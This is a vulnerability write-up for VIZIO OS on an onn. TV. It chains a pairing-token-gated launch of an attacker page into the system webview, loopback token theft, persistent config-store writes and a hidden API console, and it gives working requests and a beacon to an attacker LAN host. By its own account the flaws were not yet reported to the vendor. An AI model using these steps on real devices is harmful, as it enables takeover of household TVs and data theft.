

# Open RCE and arbitrary config write with persistence in VIZIO OS

**SmartCast launcher → system-webview code execution → loopback API compromise → device-wide config control.**

> **Impact:** open RCE in the VIZIO OS system webview, plus arbitrary config-store writes that persist device-wide.
> The RCE path is LAN-reachable and needs no memory-corruption exploit. It is **not pre-auth**: `/app/launch` returns `403 REQUIRES_PAIRING` without a SmartCast pairing token (verified). Once paired, the loopback token endpoint is unauthenticated.

Technical report and reproduction toolkit for the onn. 65" 4K (`65S4V4`, internal model `W4K65M-1030`) running VIZIO OS on a MediaTek MT5586.

**Author:** [@vindeckyy](https://github.com/vindeckyy) · **Date:** October 2026 · **License:** MIT (code), see [LICENSE](LICENSE)

---

## Abstract

The SmartCast control API on TCP/7345 exposes `PUT /app/launch`, an open RCE path into the system modal webview. For the internal modal app (`NAME_SPACE=4`, `APP_ID=3001`, bundle `uml`), the `MESSAGE` field is passed through as the URL that the system UI webview loads. The build under test accepted a plain-HTTP URL on a non-loopback LAN host; no origin allowlist was observed. A caller holding a valid pairing token can therefore make the TV fetch and execute attacker-controlled JavaScript inside the same Chromium instance that renders system dialogs.

That JavaScript runs on a network origin that can reach loopback-only services. Three of those services turn the launch bug into a full device compromise:

1. `scfs` (`127.0.0.1:12345`) serves the VIZIO web bundles with `Access-Control-Allow-Origin: *`, so the injected page can read system UI source, manifests, and the companion SDK cross-origin.
2. The internal SCPL REST twin (`127.0.0.1:7346`) hands out its own API token from `GET /app/get_auth_token` without any authentication. Loopback is treated as an identity.
3. The device-wide config store accepts arbitrary attacker-chosen keys through `PUT /app/store/set`. There is no schema, namespace, or value validation. Writes survive the lifecycle of the page and app that made them and are readable from the LAN through the external API.

The chain was reproduced end-to-end three times. All primitives in the [capability matrix](#14-capability-matrix) were executed against the device; per-row notes give the limits.

**Entry gate:** `PUT /app/launch` requires a valid SmartCast pairing token. Unauthenticated calls return `403` with `{"STATUS":{"RESULT":"REQUIRES_PAIRING"}}`. The token comes from the documented pairing flow, which displays a four-digit PIN on the TV. This report separates the two facts:

- The pairing flow is **not** a vulnerability. It is the intended user-consent gate.
- The vulnerability is that a token representing *user-level remote-control access* unlocks *system-level webview execution*, and that the resulting loopback context has no authentication of its own.

"Open RCE" here means LAN-reachable and exploitable through the documented API alone, with no memory-corruption bug or chained second vulnerability. It does not mean unauthenticated.

**Disclosure:** research was performed on a personally owned TV on a private network. No vendor contact had been made at the time of writing. Vizio or Walmart representatives can open an issue in this repository for the full request/response transcripts and an advisory coordination.

---

## Contents

1. [Summary of findings](#1-summary-of-findings)
2. [Target and test environment](#2-target-and-test-environment)
3. [Preconditions and threat model](#3-preconditions-and-threat-model)
4. [System architecture and exposed interfaces](#4-system-architecture-and-exposed-interfaces)
5. [The pairing flow (baseline, not a finding)](#5-the-pairing-flow-baseline-not-a-finding)
6. [Finding 1: arbitrary URL execution via `/app/launch`](#6-finding-1-arbitrary-url-execution-via-applaunch)
7. [Finding 2: loopback reachability from the injected page](#7-finding-2-loopback-reachability-from-the-injected-page)
8. [Finding 3: the companion library exposes the internal trust model](#8-finding-3-the-companion-library-exposes-the-internal-trust-model)
9. [Finding 4: tokenless internal API token endpoint](#9-finding-4-tokenless-internal-api-token-endpoint)
10. [Finding 5: arbitrary persistent config-store writes](#10-finding-5-arbitrary-persistent-config-store-writes)
11. [Finding 6: production-shipped API test console](#11-finding-6-production-shipped-api-test-console)
12. [Finding 7: LOKI internal UI bus](#12-finding-7-loki-internal-ui-bus)
13. [Additional exposed services and control-API behavior](#13-additional-exposed-services-and-control-api-behavior)
14. [Capability matrix](#14-capability-matrix)
15. [Abuse scenarios](#15-abuse-scenarios)
16. [Detection opportunities](#16-detection-opportunities)
17. [Remediation](#17-remediation)
18. [Reproduction and tooling](#18-reproduction-and-tooling)
19. [Repository map](#19-repository-map)
20. [Artifact integrity](#20-artifact-integrity)
21. [Appendix A: OTA firmware container format](#appendix-a-ota-firmware-container-format)
22. [Appendix B: methodology, timeline, and open problems](#appendix-b-methodology-timeline-and-open-problems)
23. [References](#references)

---

## 1. Summary of findings

| ID | Finding | Security property violated | Persistence |
|---|---|---|---|
| F1 | `PUT /app/launch` loads an attacker URL in the system modal webview (`NS=4`/`APP_ID=3001`) | Missing input validation on a privileged URL sink | Per launch |
| F2 | `scfs` static server on loopback sends `Access-Control-Allow-Origin: *` | Browser same-origin policy is nullified for internal assets | While page runs |
| F3 | Companion SDK exposes the full service table, token bootstrap, and ~200-method native bridge to any page | Internal trust model is "inside the webview", with no origin binding | While page runs |
| F4 | Internal SCPL REST on `127.0.0.1:7346` returns its API token from `GET /app/get_auth_token` | Authentication bypass; loopback treated as trusted | Token TTL ≈ 5 min |
| F5 | `PUT /app/store/set` accepts arbitrary keys, types, and namespaces | Missing authorization and schema validation on device-wide state | Until key deleted or factory reset* |
| F6 | Hidden API console (`apiTestApp.html`) is gated only by a `?bd` URL parameter and a store flag | Client-side-only access control; debug surface shipped to production | Until flag changes |
| F7 | LOKI WebSocket accepts `bundle` and `deepLink` commands; bundle integrity is a filename SHA-1 check | Unauthenticated internal UI control; weak integrity model | Per command |
| — | Cast receiver on TCP/8009 accepts unauthenticated `LAUNCH` | Protocol design, but relevant to display-takeover scenarios | Per session |

\* Persistence across app/webview lifecycle was verified. Reboot persistence was not explicitly re-tested for store values; the store is device-wide KV state, not app-scoped storage. The pairing token is known to survive reboots and remains valid until factory reset.

**Impact classes**

| Class | Result | Precondition |
|---|---|---|
| **Open RCE** | Attacker JavaScript runs in the system webview; loopback API, native bridge, store, LOKI, and the API console become reachable | pairing token |
| **Arbitrary config write with persistence** | Any key, any namespace, no schema; survives the page and app that wrote it; readable from the LAN | RCE + internal token |

The chain:



---

## 2. Target and test environment

| Attribute | Value |
|---|---|
| Retail device | onn. 65" 4K, model `65S4V4`, Walmart item #16109363845 |
| Internal model | `W4K65M-1030` |
| Platform | VIZIO OS `1.8.1767.1`; SCPL `3.7.3-2640` |
| Firmware | `86.920.9.3-2` running; OTA container `86.920.9.3-2F` |
| SoC | MediaTek MT5586 (`mtk5586` cast core) |
| Webview | Chromium `128.0.6613.194`, Conjure `128.1.8`, UA token `ONN W4K65M-1030 VIZIO SmartCast/1.8.1767.1` |
| Companion SDK | `vizio-companion-lib.js` `6.0.2-2636.9999`, 299,679 bytes |
| Cast core | Chromecast `1.6.18` |
| Other services | lighttpd `1.4.67`, AirTunes `377.40`, Netflix NRDP `2025.2.3.0` |
| Attacker host | Debian/Linux laptop on the same /24, Python 3, curl, nmap, openssl, binwalk, mitmproxy/dnsmasq/arpspoof |
| Hardware tooling | None. No UART, SPI, or flash access was used for these findings |

The TV is a Vizio platform under an onn badge: same SmartCast stack, same SCPL routes, same bundle layout, different industrial design and model string.

---

## 3. Preconditions and threat model

The full chain requires all of the following:

1. **Layer-2/Layer-3 adjacency** to TCP/7345, or a route to it. This is a LAN-adjacent attack, not an internet-facing one. Hotel, bar, office, shared Airbnb, and guest Wi-Fi networks are the realistic settings.
2. **A valid pairing token**, obtained by one of:
   - reading the four-digit PIN from the screen during pairing (physical or camera access),
   - social engineering the PIN through a fake system prompt rendered in the same modal layer (see [scenario S4](#s4-pairing-pin-social-engineering)),
   - stealing a token from a previously paired phone or from `.tv_auth` / `.tvapp_token` on a machine that has paired.
3. **A reachable HTTP origin** for the injected page. The TV must be able to route to the attacker host. The page URL can carry a cache-buster; no TLS is required. Once the page runs, store writes persist without it.
4. **No further authentication after launch.** The webview executes the page automatically. There is no user-visible confirmation of the origin in the tested build.

Out of scope / not claimed:

- No pre-auth RCE on current firmware. The open RCE in this report is pairing-token gated. The 2021 `/install` command-injection path is dead on this build (see [§13](#13-additional-exposed-services-and-control-api-behavior)).
- No kernel or bootloader exploit. The impact is code execution in the system UI webview plus control of device-wide configuration.
- No cloud compromise. The OTA container was reverse-engineered but not decrypted; the device-side RSA private key was not extracted.

---

## 4. System architecture and exposed interfaces

### 4.1 LAN-reachable surface

Scan from a laptop on the same /24:

| Port | Proto | Service | Auth | Observed behavior / relevance |
|---|---|---|---|---|
| **7345** | HTTPS | **SCPL / SmartCast control API** (lighttpd TLS front end) | pairing token in `AUTH` header | Full control API: pairing, app launch, settings, store access, system info. Primary entry point |
| 8008 | HTTP | Cast v1 | none | Legacy cast channel; TLS castv2 is on 8009 |
| **8009** | TLS | **castv2 receiver** | **none** | `LAUNCH` accepted from any LAN peer. Verified by launching YouTube without user interaction |
| 8443 | HTTPS | lighttpd | — | 404 for all tested paths |
| 9080 | HTTP | Netflix NRDP runtime `2025.2.3.0` | — | Returns `status=ok` for most inputs; not further explored |
| 7000 | TCP | AirPlay/AirTunes `377.40` | HAP pairing | `/pair-setup` and `/pair-verify` exist and enforce HAP crypto |
| 56789, 56790 | HTTP | unknown | — | 404 on every path attempted |

The scan did **not** reveal 12345, 4242, 8005, 7346, 9090, or 9091. Those are loopback-bound or advertised only through mDNS; they become reachable only after the webview pivot in [§7](#7-finding-2-loopback-reachability-from-the-injected-page). mDNS was the first indication of that internal fleet:

```text
_viziocast._tcp:
  did=b691f911-…  name=Game Room
  hp=7346  hsp=7345  wp=8005  wsp=8006
  wifi=f04fe02d6e20  esn=WEU6Y5AC…
```

`hp`/`hsp` correspond to the internal/external SCPL REST pair (7346/7345). `wp`/`wsp` are consistent with a plain/TLS WebSocket pair; 8005 was later confirmed as the SCPL event bus, 8006 was not exercised. The `wifi` value matches the device MAC without separators, which is itself a stable identifier.

### 4.2 Internal surface reachable from the webview

| Service | Address | Auth observed | Purpose |
|---|---|---|---|
| scfs | `http://127.0.0.1:12345` | none | Static server for `/scfs/...` web bundles. Wildcard CORS. Directory listings return 403 |
| SCPL REST (internal) | `http://127.0.0.1:7346` | `AUTH: <internal token>` for most routes; some routes tokenless | Plaintext twin of the control API. `/state/device/power_mode` returned 200 without a token |
| SCPL WS | `ws://127.0.0.1:8005/?TOKEN=<token>` | token in query string | Realtime event bus |
| LOKI | `ws://127.0.0.1:4242` | none observed | Internal UI bundle launcher and deeplink bus. Subprotocol `loki` |
| Tuner | `ws://localhost:9090`, `ws://localhost:9091` | — | ATSC tuner control and events |

### 4.3 SCPL request conventions

- State-changing calls use `PUT` with a JSON body. Most bodies are wrapped in `{"VALUE": ...}`.
- Responses follow `{"STATUS":{"RESULT":"SUCCESS"},"ITEM":{…}}` on success and sometimes `{"STATUS":…,"ITEMS":[…]}` for list reads.
- Authentication is the `AUTH` header. The companion SDK switches to a `SESSION` header when a session value is available in the URL query string.
- The TLS certificate on 7345 is not publicly trusted; tooling disables verification deliberately.
- Route existence is observable: registered routes return structured JSON, unregistered routes return HTTP 500 with an `Unhandled Exception` page. This 200-vs-500 oracle was used to enumerate the API and is implemented in `recon.py`/`findings.md`.
- A `Host: scpl.local` request triggers a WAF response (`Dangerous request detected`), confirming that at least some request filtering exists on the external listener.

---

## 5. The pairing flow (baseline, not a finding)

The external API expects a token produced by the documented SmartCast pairing exchange, the same flow used by the Vizio mobile app:

```http
PUT /pairing/start HTTP/1.1
Content-Type: application/json

{"DEVICE_NAME":"pwn-tool","DEVICE_ID":"pwn-tool-0001"}
```

The TV displays a four-digit PIN. The response carries `ITEM.PAIRING_REQ_TOKEN` (and, on this build, a `KEY` field). The second call completes the challenge:

```http
PUT /pairing/pair HTTP/1.1
Content-Type: application/json

{
  "DEVICE_NAME": "pwn-tool",
  "DEVICE_ID": "pwn-tool-0001",
  "CHALLENGE_TYPE": 1,
  "RESPONSE_VALUE": "<PIN>",
  "PAIRING_REQ_TOKEN": <token from /pairing/start>
}
```

Response:

```json
{"ITEM":{"AUTH_TOKEN":"<pairing token>"}}
```

The token remains valid across reboots until the device is factory-reset. It is a bearer credential with broad control-API access. The `CHALLENGE_TYPE` value used here is `1`; `RESPONSE_VALUE` is the on-screen PIN, not a hash.

This flow is the intended consent mechanism. No bypass was found or needed. An unauthenticated `PUT /app/launch` returns `403 REQUIRES_PAIRING`; the gate is enforced on the endpoint used by the chain. The relevant finding starts after it: the pairing token's capability is not scoped to remote-control actions, and the launch endpoint converts that capability into code execution in a system component.

---

## 6. Finding 1: arbitrary URL execution via `/app/launch`

### 6.1 Request schema

`PUT /app/launch` accepts:

```json
{"VALUE":{"MESSAGE":"…","NAME_SPACE":<int>,"APP_ID":"<id>"}}
```

- `NAME_SPACE` selects a launcher subsystem.
- `APP_ID` selects an app within that subsystem.
- `MESSAGE` is interpreted according to the selected app. For the internal launcher it is a JSON descriptor; for app 3001 it is a URL.

The API does not document namespace semantics or app-ID mappings. The mapping below is empirical and firmware-specific.

### 6.2 Namespace enumeration

The sweep launched each `(NAME_SPACE, APP_ID)` pair and read back `/app/current` to observe the resulting state. The read-back oracle is what made the enumeration practical: the API is a state machine that reports the app it just started.

| Input | Observed result |
|---|---|
| `NAME_SPACE=1`, `APP_ID=1..4` | Input selector and related surfaces, or no visible change |
| `NAME_SPACE=2` | App-store namespace. Numeric IDs from the public API documentation are accepted but mostly do not launch recognizable content |
| `NAME_SPACE=4` | Internal VIZIO OS launcher. `MESSAGE` is a JSON descriptor, e.g. `{"app":"home","bundle":"bundles/home"}` |
| `NAME_SPACE=1`, `APP_ID=3` | Landed on the same modal app; `/app/current` then reported `APP_ID=3001`, `NAME_SPACE=4` |

Sample read-back for the normal modal app:

```json
{"APP_ID":"3001","NAME_SPACE":4,
 "MESSAGE":"http://127.0.0.1:12345/scfs/uml/main.html"}
```

App 3001 is the `uml` bundle, the modal/overlay renderer used for system dialogs, including pairing prompts. Its `MESSAGE` is normally a local `scfs` URL.

### 6.3 The validation gap

Two URL shapes were tested:

1. **Descriptor form**, with a remote bundle URL:
   ```json
   {"app":"pwn","bundle":"http://192.168.0.69:8099/evil"}
   ```
   The TV registered the app but never fetched the bundle URL. The bundle path resolved locally; this shape is not a remote-code path.

2. **Direct modal form**:
   ```json
   {"VALUE":{"MESSAGE":"http://192.168.0.69:8099/agent.html","NAME_SPACE":4,"APP_ID":"3001"}}
   ```
   The TV fetched the URL and executed the page.

The direct form is the finding. The server accepted a non-loopback, non-`scfs` URL as the modal content and returned success. No scheme allowlist, host allowlist, path prefix check, or user confirmation was observed.

Working request:

```http
PUT /app/launch HTTP/1.1
Host: <TV>:7345
AUTH: <pairing token>
Content-Type: application/json

{"VALUE":{"MESSAGE":"http://192.168.0.69:8099/agent.html","NAME_SPACE":4,"APP_ID":"3001"}}
```

The response reports `STATUS.RESULT = SUCCESS`. The TV then issues `GET /agent.html` and begins beaconing.

### 6.4 Execution context

Beacon from the TV:

```text
192.168.0.116 - - [17/Oct/2026 03:30:47] "GET /b?tag=ua&d=ONN W4K65M-1030 VIZIO SmartCast/1.8.1767.1;
  AppleWebKit/537.36 Chrome/128.0.6613.194 (Conjure/128.1.8)" 200 -
```

This is not a stripped down 2016 embedded browser. It is Chromium 128 inside Conjure, Vizio's app framework, executing attacker JavaScript.

The page gets its own origin, but it does not run as ordinary untrusted web content. It runs in the system UI app's webview lifecycle, in the same component that renders pairing and system dialogs. Two consequences follow directly:

- The page can reach the loopback services that the native app uses.
- The page can be used to impersonate system UI, which changes the pairing-threat model from physical presence to social engineering.

The page is loaded fresh on each launch. It is not registered as a home-screen app: it ends on home, reboot, or app switch, and the attacker server must remain reachable while it runs. Persistence is achieved through the config store, not through the launch primitive.

---

## 7. Finding 2: loopback reachability from the injected page

From the injected page, a plain `fetch()` reaches loopback services. No DNS rebinding, proxy, or browser exploit is involved. The webview simply treats `127.0.0.1` as a normal network destination, and the internal services do not authenticate the caller.

### 7.1 scfs — `http://127.0.0.1:12345`

- Serves VIZIO web bundles under `/scfs/`.
- Sends `Access-Control-Allow-Origin: *`, so cross-origin reads succeed.
- The injected page read `/scfs/uml/main.html`, the bundle JavaScript, and `/scfs/manifest.json` cross-origin.
- Directory listings return 403; individual assets are readable.

The manifest lists every web bundle with a version and SHA-256:

```text
chromevox 1.1.0-2213.303, cl 6.0.2-2636.9999, conjure, oobe, scal, schk,
sctv, scu, uml, system-ui-app, system-ui-app-lite, wc-vizio-pay 1.5.0, images
```

`system-ui-app` is the system UI. `wc-vizio-pay` is the payments flow. `uml` is the modal renderer. `cl` is the companion library. A page reachable from the modal context can therefore enumerate and read the entire web-layer attack surface of the device.

### 7.2 SCPL internal REST — `http://127.0.0.1:7346`

- Plain HTTP, no TLS.
- `/state/device/power_mode` returned HTTP 200 with real data **without an `AUTH` header**.
- With the token from [§9](#9-finding-4-tokenless-internal-api-token-endpoint), all tested store and app routes behaved normally.

### 7.3 WebSockets

- `ws://127.0.0.1:4242` with `Sec-WebSocket-Protocol: loki` connects.
- `ws://127.0.0.1:8005/?TOKEN=<token>` connects once a token is obtained. Key registration through the internal REST API (`PUT /app/key/register` on :7346) also returned `SUCCESS`; no `key_command` frames were observed on the socket, so ordinary DOM key events are the reliable input path.
- `ws://localhost:9090` and `:9091` are advertised by the SDK as tuner control/events; they were mapped but not driven.

None of this is reachable from the LAN directly. All of it is reachable from a page that the TV itself loaded into the system webview. That is the pivot.

---

## 8. Finding 3: the companion library exposes the internal trust model

`vizio-companion-lib.js` is the JavaScript SDK that VIZIOS webapps include to talk to the native side. It is served unauthenticated by `scfs`:

```text
http://127.0.0.1:12345/scfs/cl/js/vizio-companion-lib.js
```

Size: 299,679 bytes (repository artifact), version `6.0.2-2636.9999`. It is minified but structurally self-documenting, because it must expose the entire local API to every VIZIO webapp.

### 8.1 Hardcoded service table

```js
Sr = {
  LOKI:           `ws://127.0.0.1:4242`,
  SCPL:           `ws://0.0.0.0:8005`,
  TUNER_CONTROL:  `ws://localhost:9090`,
  TUNER_EVENTS:   `ws://localhost:9091`
},
wr = {
  LOCAL: `http://127.0.0.1:12345`,
  SCPL:  `http://127.0.0.1:7346`
}
```

This table is the internal map. It is also the reason the loopback pivot took minutes rather than days.

### 8.2 Authentication flow

```js
Wr = { uri: `app/get_auth_token` }

// token derivation, retried on TOKEN errors
await Hr.scplRequest({
  memoName: `scplAuthToken`,
  requestOptions: { path: Wr.uri, retry: Er.TOKEN }
})

// a = SESSION value from the URL query string, if present
// header selection
let o = a ? `SESSION` : `AUTH`;
return await Hr.scplRequest({
  requestOptions: { …headers: { …t.headers, [o]: i }}
})
```

The token wrapper carries `ttl: "5m"`. Every internal caller bootstraps its credential by asking the TV for one. There is no client certificate, no per-origin secret, and no binding to a native app identity.

### 8.3 Store and transport paths

```js
im = { uriGet: `app/store/get`, uriSet: `app/store/set` }
```

The library also contains the LOKI command vocabulary, every config key name used by the system UI, and roughly 200 methods on the `window.VIZIO` bridge.

### 8.4 The bridge is usable from attacker origin

Including the library with a `<script src>` in the injected page produced a populated `globalThis.VIZIO`. Exercised getters and methods returned live data:

- Model, firmware, ESN, DSN, stable device hash (`dhash`), IP, MAC, SSID, timezone.
- Capability and manifest dumps.
- Power state, app launch, config getters, HomeKit payloads, AirPlay settings.

No origin allowlist was observed for loading the library or for the methods exercised. The stated trust boundary is "you are inside the webview"; that boundary is exactly what F1 removes. Because the library is loaded from loopback, it also works when the attacker page is served over plain HTTP from the LAN.

---

## 9. Finding 4: tokenless internal API token endpoint

From the injected page, with no headers and no credentials:

```http
GET http://127.0.0.1:7346/app/get_auth_token HTTP/1.1
```

Response:

```json
{"STATUS":{"RESULT":"SUCCESS"},"ITEM":{"VALUE":"<internal-token>"}}
```

The internal SCPL API returns its own application token to any loopback caller. The companion library calls this endpoint before every session; the endpoint is designed so that local callers can bootstrap. The flaw is that "local" is not an identity: after F1, the attacker's page is local.

With the token, internal requests work as expected:

```js
fetch("http://127.0.0.1:7346/app/store/get", {
  method: "PUT",
  headers: {
    "Content-Type": "application/json",
    "AUTH": token
  },
  body: JSON.stringify({ VALUE: ["<any key>"] })
})
```

The token's TTL is five minutes. The injected page can re-fetch it at will, so the practical lifetime of internal API access is "as long as the page runs". This is the pivot from webview execution to the full internal API.

---

## 10. Finding 5: arbitrary persistent config-store writes

### 10.1 Request shapes

Read:

```http
PUT /app/store/get HTTP/1.1
AUTH: <internal token>
Content-Type: application/json

{"VALUE":["KeyA","KeyB"]}
```

Response is a list of key/value items:

```json
{"STATUS":{"RESULT":"SUCCESS"},"ITEMS":[{"key":"KeyA","value":"…"}]}
```

Write:

```http
PUT /app/store/set HTTP/1.1
AUTH: <internal token>
Content-Type: application/json

{"VALUE":{"KeyA":"value"}}
```

The tested build returned success for every key attempted. There was no schema check, no key allowlist, no namespace protection, and no type enforcement.

### 10.2 Writes executed on the test device

| Key | Value | Effect / caveat |
|---|---|---|
| `OMPTestKey` | `hello-from-agent` | Invented key. Written, read back, still present from the LAN minutes later |
| `OMPPwnMarker2` | Unix timestamp | Reproduced by `pwn.py`; verifies arbitrary write |
| `OMPFinalProof` | timestamp | Final end-to-end proof key |
| `ApplicationFramework:ChromiumSettings:DebugEnabled` | `"true"` | Accepted. Already true on this build |
| `AppConfigs:CL:ApiTestApp:allowInternalMode` | `"true"` | Written. Unlocks the hidden API console's internal methods |
| `ApplicationFramework:ChromiumSettings:RemoteDebuggingPort` | `9222` | Written. Did **not** open CDP on the running webview; a webview respawn is expected to apply it (unverified) |

### 10.3 Persistence proof

The sequence used for proof:

1. Page executes F1 and obtains the internal token.
2. Page writes an invented key via `/app/store/set`.
3. Page reads it back via `/app/store/get`.
4. The page is gone; from the LAN, the external API on 7345 is queried with the pairing token and returns the same value.

The store is device-wide state, not app-scoped storage. It does not care about the webview lifecycle. This is what makes the chain more than a transient overlay:

- Feature flags live here, including the `ApplicationFramework:*` and `AppConfigs:*` namespaces.
- URL-bearing settings live here.
- Debug and Chromium settings live here.
- Vizio's own test keys (`ToadName`, `FrogName`, `NewtName`, `SalamanderName`) are present, which is a strong hint that this store has never been treated as a security boundary.

The write primitive is straightforwardly a persistence primitive for configuration. It is not direct code persistence, but it controls the inputs that the system UI and webview read on their next start.

---

## 11. Finding 6: production-shipped API test console

While reading the companion library, `launchApiTestApp()` revealed this URL shape:

```text
http://127.0.0.1:12345/scfs/cl/js/apiTestApp.html
  ?clVersion=…
  &configVersion=…
  &NAME_SPACE=…
  &APP_ID=…
```

The page is Vizio's own API console: a Svelte application, 374,595 bytes as served, with 323,471 bytes of extracted JavaScript in `extracted/apiTestApp.js`.

### 11.1 Contents

- 226 API methods cataloged across Legacy and Modular tabs.
- 314 deeplink IDs.
- **65 `internalOnly` methods**, including:

| Deeplink | Method | Effect |
|---|---|---|
| 254 | `rebootTv` | Power-cycles the TV |
| 86 | `setPowerMode` | Sets power state |
| 87 | `softPowerCycle` | Soft power cycle |
| 88 | `getStoreProperty` | Reads any store key |
| 91 | `setStoreProperty` | Writes any store key |
| 6 | `launchApp` | Arbitrary app launch |
| 7 | `launchAmbient` | Ambient/background launch |
| 230 | `displaySystemMenu` | Forces a system overlay |
| 54 | `displaySidebarMenu` | Forces the sidebar |
| 301 / 103 | `setActivityDataPolicyAccepted` | Flips viewing-data consent |
| 132 / 133 | Chromevox getters | Accessibility-script access |

### 11.2 The gate

All internal methods are gated client-side:

```js
const hasBd = new URLSearchParams(window.location.search).has("bd");
```

Presence of `?bd` in the URL is sufficient. `&deeplink=<ID>` then auto-fires the corresponding method on page load. No token, no pairing, no developer mode, and no native-side check were observed.

The debug flag from the store (`ApplicationFramework:ChromiumSettings:DebugEnabled`) and the `allowInternalMode` key from the store are the only other knobs. Both are writable through F5. Combined, an injected page can navigate the modal to this console and drive it from the same loopback context, giving an on-screen GUI for the internal API.

The console is not itself remotely reachable. It becomes reachable because the injected page is on loopback and `scfs` is open. The "gate" is one URL parameter, and the attacker controls the URL.

---

## 12. Finding 7: LOKI internal UI bus

LOKI is the WebSocket service that launches internal UI bundles and resolves deep links:

```text
ws://127.0.0.1:4242
Sec-WebSocket-Protocol: loki
```

### 12.1 Wire format

Messages are JSON envelopes with an `id` and a `command`:

```json
{"id":1,"command":"bundle","url":"bundles/account-modal","parameters":{"step":"linking"}}
{"id":2,"command":"deepLink","target":"/menu/bluetooth/gamepads"}
```

The bundle command launches an internal bundle by path. The deepLink command routes to internal menu targets. Both were accepted. Frames can be sent with no token.

### 12.2 Error messages as documentation

The service's errors disclose the implementation:

```json
{"details":"Step is missing required attribute 'var'","event":"error",
 "file":"/app/external/bundles/account-modal/templates/BundleRoot.xml","line":42}

{"code":"BNDLZP",
 "details":"expected 3f7836974d9b645e2a1fd292bb87d1116199791a got loki-pwn for bundle loki-pwn",
 "error":"Invalid sha1sum! Make sure the zipped bundle's filename matches the sha1sum",
 "file":"/platform-manifest/apps/loki/parts/loki/src/src/bundles.cpp","line":1137}
```

What this establishes:

- Bundles are ZIP archives.
- Each contains `templates/BundleRoot.xml`, an XML step-language for UI.
- Bundles resolve under `/app/external/bundles/`.
- Integrity is enforced by checking the filename against a SHA-1 hash, **not** by verifying a signature at this layer.
- Remote URLs are rejected. Pointing the bundle URL at an attacker server produced a `BNDLDL` download failure.

Planting a bundle requires a writable path, the correct SHA-1 filename, and a valid XML bundle. The pieces are documented here. This was mapped but not weaponized: the config-store write is already the stronger persistence primitive, and the bundle path needs a writable filesystem location that was not identified.

---

## 13. Additional exposed services and control-API behavior

### 13.1 Cast receiver (TCP/8009)

The castv2 receiver accepts unauthenticated `LAUNCH` requests. `castv2_enum.py` implements the wire protocol by hand: 4-byte big-endian length prefix, then a `CastMessage` protobuf with `protocol_version`, `source_id`, `destination_id`, `namespace`, `payload_type`, and `payload_utf8`. It connects over TLS, sends `CONNECT` and `GET_STATUS`, and logs receiver frames.

Observed:

- `GET_STATUS` returns running apps and volume.
- `LAUNCH` with a known app ID works. YouTube was launched on the TV from the LAN with no interaction.
- This is standard cast behavior, not a firmware bug. It is still relevant because display takeover is a precondition for several phishing scenarios.

### 13.2 External menu API

The live settings tree is:

```text
GET /menu_native/dynamic/tv_settings/<section|cname>
PUT /menu_native/dynamic/tv_settings/<section|cname>
```

Writes use:

```json
{"REQUEST":"MODIFY","VALUE":…,"HASHVAL":<hash from GET>}
```

or `"REQUEST":"ACTION"` for actions. Executed during testing:

- `check_for_updates` (fired three times).
- DHCP off, then on.
- Static IP, netmask, gateway, and DNS field writes; apply semantics were flaky but the writes landed.

This is the documented control surface extended by the paired token. It is not needed for the main chain, but it demonstrates that the token's capability is not limited to app launch.

### 13.3 Information disclosure

- `GET /system/capabilities` returns a full capabilities dump.
- `GET /system/dynamic/iptolocation` returns geolocation derived from the public IP (city/region observed), no additional auth beyond the pairing token.
- The bridge additionally exposes ESN, DSN, `dhash`, MAC, SSID, firmware, and timezone. That is a durable household fingerprint.

### 13.4 The 2021 `/install` technique

`viziown.sh` implements the 2021 ViziOwn command-injection technique: a crafted multipart filename in the SCPL `/install` handler is passed to a shell as root. On this build, every request shape returned HTTP 500:

- GET and POST.
- HTTP/1.1 and h2.
- Plain, multipart, with and without `AUTH`.
- Ten-plus header variants.

The route exists but the handler is broken, migrated, or disabled. No command execution was achieved through it. The script is retained for historical reproduction on older builds; `payloads/README.md` explains why busybox is not vendored.

### 13.5 Remote input

Physical remote presses reach the modal webview as ordinary DOM `keydown` events. Observed keycodes include `ArrowDown/40`, `ArrowUp/38`, `Enter/13`, and `Escape/27`. Registering a key handler through `PUT http://127.0.0.1:7346/app/key/register` returned `SUCCESS`, and the SCPL event socket accepted the connection, but no `key_command` frames were observed on the socket. For the injected app, DOM events are the reliable path and the WebSocket is a fallback.

The companion SDK's codeset tables map the native remote to symbolic keys:

| Codeset | Meaning | Mapping (SDK tables) |
|---|---|---|
| 3 | Vizio D-pad | 0 down, 1 left, 2 OK, 7 right, 8 up |
| 4 | Back/exit | 0 back, 3 exit |
| 2 | Media | 0 fast-forward, 1 rewind, 3 play, 9 stop |
| 0 | Browser keycodes | ordinary DOM codes |

The injected page is a modal launch, not a registered home-screen app. It ends on home, reboot, or app switch, and the attacker server must stay reachable while it runs. Persisting it would require app-registry or store-driven autostart control, which is beyond the launch primitive.

### 13.6 Services with no useful result

- AirPlay/AirTunes on 7000 correctly requires HAP pairing. No memory-corruption work was attempted.
- Netflix NRDP on 9080 returns `status=ok` for almost anything.
- lighttpd on 8443 returns 404.
- Ports 56789/56790 returned 404 on every path.
- No SSH, telnet, or ADB was exposed.

---

## 14. Capability matrix

| # | Primitive | Mechanism | Auth needed | Persistence |
|---|---|---|---|---|
| 1 | JS execution in the system webview | `PUT /app/launch`, `NS=4`, `APP_ID=3001`, attacker URL | pairing token | Per launch |
| 2 | Native bridge, ~200 methods | Include `vizio-companion-lib.js` from `scfs` | none after (1) | Per page |
| 3 | Loopback service reachability | `fetch()`/WebSocket from attacker page | none after (1) | Per page |
| 4 | Internal API token | `GET 127.0.0.1:7346/app/get_auth_token` | none from loopback | Token TTL ≈ 5 min, re-fetchable |
| 5 | Read any store key | `PUT /app/store/get` | internal token | — |
| 6 | Write any store key | `PUT /app/store/set` | internal token | Device-wide; survives page/app lifecycle; persists until changed or factory reset* |
| 7 | Unlock hidden API console | Store flags + `?bd` URL parameter | internal token for flags | Until flags cleared |
| 8 | LOKI bundle/deeplink launch | `ws://127.0.0.1:4242`, subprotocol `loki` | none observed | Per command |
| 9 | Identity harvest | VIZIO bridge getters | none after (1) | — |
| 10 | Unauthenticated cast launch | castv2 `LAUNCH` on 8009 | none | Per cast session |

\* Store persistence across reboot not explicitly re-tested; device-wide semantics and survival of the webview/app lifecycle were verified.

